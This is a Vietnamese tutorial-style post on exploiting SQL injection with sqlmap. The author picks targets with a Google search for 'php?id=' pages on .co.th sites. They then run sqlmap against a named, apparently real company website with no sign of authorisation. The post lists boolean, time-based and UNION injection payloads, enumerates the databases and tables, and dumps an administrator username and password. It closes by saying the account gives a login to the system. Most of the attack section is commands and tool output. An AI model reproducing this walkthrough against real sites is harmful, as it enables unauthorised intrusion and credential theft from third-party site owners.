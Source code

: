 ```yaml
---
title: Khai Thác Lỗi SQl Injection (sqlmap)
date: 4/6/2021
layout: single

--- 
```

---
# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

### Mô Tả 
## SQLMap là gì

SQLMAP là công cụ khai thác những lổ hỏng của cơ sở dữ liệu SQL. Công cụ này được xem là công cụ khai thác SQL tốt nhất hiện nay. Được giới bảo mật và giới hacker sử dụng thường xuyên. Với người dùng Kali hoặc Back Track 5 thì SQLMAP đã được tích hợp sẵn vào hệ điều hành. Riêng Windows thì chúng ta phải cài đặt thêm python và SQLMAP để sử dụng

Đây là công cụ mã nguồn mở, tự động hóa quá trình phát hiện và khai thác lỗ hổng SQL. Nó đi kèm với một công cụ phát hiện mạnh mẽ, nhiều tính năng thích hợp cho trình kiểm tra thâm nhập cuối cùng

Tải sqlmap tại [https://sqlmap.org/](https://sqlmap.org/) 

--- 

## Khai Thác 
Đầu tiên tôi tìm các liên kết về inurl php id= .co.th
Tôi thử với trang [http://www.megaplanet.co.th/project-details.php?id=26](http://www.megaplanet.co.th/project-details.php?id=26) 


---
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 --dbs

Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=26 AND 1040=1040

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=26 AND (SELECT 3942 FROM (SELECT(SLEEP(5)))QFnO)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=26 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71766a7871,0x4c6f7467466a4c417963637a566c444b534a596b57574859674653504e4379586256644d66517745,0x7178627171),NULL,NULL,NULL,NULL-- -
---
[21:55:40] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:55:40] [INFO] fetching database names
[21:55:40] [WARNING] reflective value(s) found and filtering out
[21:55:40] [INFO] resumed: 'information_schema'
[21:55:40] [INFO] resumed: 'megaplanet_db'
available databases [2]:
[*] information_schema
[*] megaplanet_db

[21:55:40] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\www.megaplanet.co.th'

```
Sau khi xác định được tên cơ sở dữ liệu, tôi lại tìm tiếp tên các bảng có trong cơ sở dữ liệu 
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 -D megaplanet_db --tables
[22:09:57] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:09:57] [INFO] fetching tables for database: 'megaplanet_db'
[22:09:57] [WARNING] reflective value(s) found and filtering out
[22:09:57] [INFO] resumed: 'tb_pic'
[22:09:57] [INFO] resumed: 'tb_project'
[22:09:57] [INFO] resumed: 'config'
[22:09:57] [INFO] resumed: 'project_ref'
[22:09:57] [INFO] resumed: 'tb_sort'
[22:09:57] [INFO] resumed: 'tb_cateproduct'
[22:09:57] [INFO] resumed: 'tb_detailhome'
[22:09:57] [INFO] resumed: 'administrator'
[22:09:57] [INFO] resumed: 'tb_banner'
[22:09:57] [INFO] resumed: 'tb_title'
[22:09:57] [INFO] resumed: 'tb_admin'
[22:09:57] [INFO] resumed: 'news'
[22:09:57] [INFO] resumed: 'tb_seo'
[22:09:57] [INFO] resumed: 'tb_news'
[22:09:57] [INFO] resumed: 'products'
[22:09:57] [INFO] resumed: 'tb_config'
[22:09:57] [INFO] resumed: 'tb_product'
[22:09:57] [INFO] resumed: 'tb_slide'
[22:09:57] [INFO] resumed: 'catpro'
[22:09:57] [INFO] resumed: 'subcatpro'
Database: megaplanet_db
[20 tables]
+----------------+
| administrator  |
| catpro         |
| config         |
| news           |
| products       |
| project_ref    |
| subcatpro      |
| tb_admin       |
| tb_banner      |
| tb_cateproduct |
| tb_config      |
| tb_detailhome  |
| tb_news        |
| tb_pic         |
| tb_product     |
| tb_project     |
| tb_seo         |
| tb_slide       |
| tb_sort        |
| tb_title       |
+----------------+

```
Xác định tên các cột trong bảng
Ta thấy administrator có thể chứa thông tin đăng nhập, nên ta sử dụng lệnh sau để xác định trong bảng administrator
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 -D megaplanet_db -T administrator --dump
[22:14:20] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:14:20] [INFO] fetching columns for table 'administrator' in database 'megaplanet_db'
[22:14:20] [WARNING] reflective value(s) found and filtering out
[22:14:20] [INFO] resumed: 'ID','int(11)'
[22:14:20] [INFO] resumed: 'admin','varchar(50)'
[22:14:20] [INFO] resumed: 'password','varchar(50)'
[22:14:20] [INFO] resumed: 'active','int(11)'
[22:14:20] [INFO] fetching entries for table 'administrator' in database 'megaplanet_db'
Database: megaplanet_db
Table: administrator
[1 entry]
+----+-------+--------+----------+
| ID | admin | active | password |
+----+-------+--------+----------+
| 1  | admin | 1      | adminxxx |
+----+-------+--------+----------+

```
Bảng administrator có 1 bản ghi chứa thông tin của username và password là "admin", "adminxxx" Sử dụng tài khoản này, ta sẽ đăng nhập vào được hệ thống

---

## Chúc May Mắn :D
